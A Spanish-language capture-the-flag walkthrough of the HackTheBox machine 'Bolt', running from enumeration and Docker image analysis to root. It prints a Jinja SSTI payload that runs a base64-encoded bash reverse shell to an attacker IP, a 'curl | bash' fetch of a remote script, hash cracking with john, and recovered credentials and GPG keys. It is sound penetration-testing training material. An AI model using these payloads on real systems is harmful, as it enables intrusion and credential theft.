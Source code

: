 10.10.11.114 - Bolt
-------------------

Puertos abiertos 22(ssh), 80(http), 443(https). Nmap dice que:
- Puerto 80: nginx
- Puerto 443: Passbolt (gestor de contraseñas open soyrde) passbolt.bolt.htb

Añado en el /etc/hosts -> bolt.htb y passbolt.bolt.htb.
Si hago una peticion a bolt.htb -> "auth/login?redirect=/"
En el navegador sale una página en blanco pero al inspeccionar sale como un banner del programa "Passbolt" y
su subdominio.

Si se hace por curl no se aplica la redirección. ```curl -s http://bolt.htb```
De ahí se puede sacar que usan "Admin LTE" y tres nombres: Joseph Garth, Bonnie Green, Jose Leos

Si meto uno como test@bolt.htb dice que no está aprovado. Intente con los que obtuve como joseph.garth@bolt.htb
pero nada.

Si pongo la ip 10.10.11.114 si que me resuelve:


Una de las páginas es download, donde nos ofrecen una imagen docker. Es un archivo tar que al descomprimirlo
se ve asi
```console
└─$ ls
 187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950
 1be1cefeda09a601dd9baa310a3704d6309dc28f6d213867911cd2257b95677c
 2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa
# Como 7 archivos de estos más...
 859e74798e6c82d5191cd0deaae8c124504052faa654d6691c21577a8fa50811.json
 manifest.json
 repositories
```
Si haces ```tree -fas``` ves que cada carpeta larga de estas tiene una archivo json otra layer.tar y otra VERSION.
Nos interesa el tar porque digamos que es un trozo de una imagen docker (o sea como una máquina virtual pero mas 
simple)
```console
└─$ tree -fas | grep "layer.tar" | awk '{print $NF}'
./187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950/layer.tar
./1be1cefeda09a601dd9baa310a3704d6309dc28f6d213867911cd2257b95677c/layer.tar
./2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa/layer.tar
# Y 8 mas
└─$ for file in $(tree -fas | grep "layer.tar" | awk '{print $NF}'); do echo "$file: "; 7z l $file; done > index.txt;
└─$ cat index.txt | grep -vE "terminfo|lib|cache|static"

# ./187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950  # archivos de configuracion /etc
# ./2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa  # archivos de la web 
# ./a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2  # archivo sqlite
# ./745959c3a65c3899f9e1a5319ee5500f199e0cadf8d487b92e2f297441f8c5cf  # arhivos de la app de python
# ./3049862d975f250783ddb4ea0e9cb359578da4a06bf84f05a7ea69ad8d508dab  # mas archivos de la web
```
En el docker tenemos:
- usaurios ->  root, operator, postgress
- corre cada 15 min estos run-parts /etc/periodic/15min
- gunicorn en el puerto 5005
- config.py: 
	SECRET_KEY: 'S#perS3crEt_007'
	mail puerto 25 support@bolt.htb
	base_de_datos: 127.0.0.1:5432 appseed:pass   postgresql/appseed-flask

```console
└─$ sqlite3 db.sqlite3
sqlite> .tables  # User
sqlite> select * from User;
1|admin|admin@bolt.htb|$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.||

└─$ john hash -w=/usr/share/wordlists/rockyou.txt
deadbolt	(?)
```

Entramos con admin:deadbolt

En la seccion de correos un tal Alexander Pierce nos ha bombardeado con emails diciendo que hay un problema con 
AdminLTE 3.0.

En la parte de /profile hay mensajes de prueba de Jonathan Burke Jr., Sarah Ross y Adam Jones


Como no sabemos que mas hacer podemos buscar subdominios:
```console
└─$ wfuzz -c --hl 504 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.bolt.htb" -u http://bolt.htb/ -t 100
000000038:   302        3 L      24 W       219 Ch      "demo"                                               
000000002:   200        98 L     322 W      4943 Ch     "mail" 
```

demo.bolt.htb y main.bolt.htb nos piden creds, pero no funcionan la de antes
En demo nos podemos registrar, pero nos piden un "codigo de invitacion" Vamos a ver si lo encontramos en el repo
```console
└─$ grep -ri "invite code" --text
└─$ grep -ri "invite code" --text
41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/layer.tar
9a3bb655a4d35896e951f1528578693762650f76d7fb3aa791ac8eec9f14bc77/layer.tar
# Se vuelve a hacer un 7z x de los dos
└─$ grep -ri "invite code"
app/base/templates/accounts/register.html
app/base/forms.py  # En forms.py encontramos que el campo se llama invite_code
└─$ grep -ri "invite_code"
app/base/routes.py # -> XNSS-HSJW-3NGU-8XTJ
```

Nos creamos un usaurio en esta seccion: cucuxii:cucuxii@bolt.htb con esta llave.
Entramos en una web casi identica a 10.10.11.114/admin solo que existe ademas la seccion de Settings.
"Se requiere una verificacion por email para actualizar inofrmación personal"

En efecto nos llega un email al subdominio de mail (done nos logueamos con la misma cuenta) y le damos a confirmar
En el perfil no cambia nada pero nos llega otro mail diciendo que se ha efectuado el cambio "test"
Como se refleja el output podemos robar un payload STTI {{7*7}} Nos llega otro email con la palabra 49, o sea 
todo funciona.

```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'" | base64  -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi82NjYgMD4mMScK
#{{cycler.__init__.__globals__.os.popen('echo YmFz... | base64 -d | bash').read()}}
```
Al darle al email de confirmacion, si nos hemos puesto en escucha con nc ```sudo nc -nlvp 666```
Si nos ponemos a analizar el sistema con nuestro script
```console
www-data@bolt:/tmp$ curl -s http://10.10.14.16/lin_info_xii.sh | bash
```
- Usuarios: root, eddie y clark, nosotros somos www-data  
- Existe la ruta /var/mail, reflejo del subdominio de mail, interesante si pudieramos leer el de eddie
- Logs donde pueden haber creds: /var/log/nginx/passbolt-access.log /var/log/passbolt/error.log
- EN /etc/passbolt hay una capreta gpg (nombre de una llave)
- El puerto 3306 o sea sql está abierto

Lo de mail tenemos permiso denegado y los logs no nos reportan nada interesante. 
El contenido de la carpeta gpg son dos llaves GPG publica y privada

Tambien en la carpeta passbolt hay una archivo passbolt.php con creds para la base de datos
passbolt:rT2;jW7<eY8!dX8}pQ8%

```console
www-data@bolt:/etc/passbolt$ mysql -upassbolt -p
Enter password: rT2;jW7<eY8!dX8}pQ8%
mysql> show databases;  # passboltdb
mysql> use passboltdb;
mysql> sho tables; 
# 'users' no tiene nada, pero 'secret' tiene un mensaje GPG (se ve de un formato similar a las llaves)

-----BEGIN PGP MESSAGE-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

wcBMA/ZcqHmj13/kAQgAkS/2GvYLxglAIQpzFCydAPOj6QwdVV5BR17W5psc
g/ajGlQbkE6wgmpoV7HuyABUjgrNYwZGN7ak2Pkb+/3LZgtpV/PJCAD030kY
pCLSEEzPBiIGQ9VauHpATf8YZnwK1JwO/BQnpJUJV71YOon6PNV71T2zFr3H
oAFbR/wPyF6Lpkwy56u3A2A6lbDb3sRl/SVIj6xtXn+fICeHjvYEm2IrE4Px
...
```
Esta contraseña sirve para loguearse como eddie:
Intento romper la llave privada con gpg2jhon pero no hay suerte

Si corro el script otra vez, eddie posee muchos archivos .config/google-chrome/
En la busqueda de backups tambien nos muestran esta carpeta, en concreto carpeta Default archivos "000003.log"

En la carpeta de google-chrome hay demasiadas cosas asi que hacemos un filtrado por cosas como gpg o passbolt
```grep -riE "passbolt|gpg"``` damos con esta ruta todo el rato ```Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/index.min.js``` 
pero no está está la llave, buscamos a ver si esta ruta existe en otro lado: ```grep -ri "didegimhafipceonhjepacocaffmoppf"```

Es un archivo extremadamente largo llamado cat 000003.log con llaves gpg en un one liner
```
-----BEGIN PGP PRIVATE KEY BLOCK-----\\r\\nVersion: OpenPGP.js v4.10.9\\r\\nComment: https://openpgpjs.org\\r\\n\\r\\nxcMGBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi\\r\\nfjfUozTU9a0OLuiHUNeEjYIVdcaAR89lVBnYuoneAghZ7eaZuiLz+5gaYczk\\r\\ncpRETcVDVVMZrLlW4zhA9OXfQY/d4/OXaAjsU9w+8ne0A5I0aygN2OPnEKhU\\r\\nRNa6PCvADh22J5vD+/RjPrmpnHcUuj+/qtJrS6PyEhY6jgxmeijYZqGkGeWU\\r\\n+XkmuFNmq6km9pCw+MJGdq0b9yEKOig6/UhGWZCQ7RKU1jzCbFOvcD98YT9a\\r\\nIf70XnI0xNMS4iRVzd2D4zliQx9d6BqEqZDfZhYpWo3NbDq
```
Abrimos con VIM: -> :%s/\\\\r/\r/g y :%s/\\\\n//g
```console
└─$ gpg2john llave1.key > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
merrychristmas   (Eddie Johnson)
└─$ gpg --import llave1.key  # metes la contraseña merrychristmas
└─$ gpg -d message
gpg: cifrado con clave de 2048 bits RSA, ID F65CA879A3D77FE4, creada el 2021-02-25
      "Eddie Johnson <eddie@bolt.htb>"
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Firmado el sáb 06 mar 2021 16:33:54 CET
```
Esa es la contraseña de root

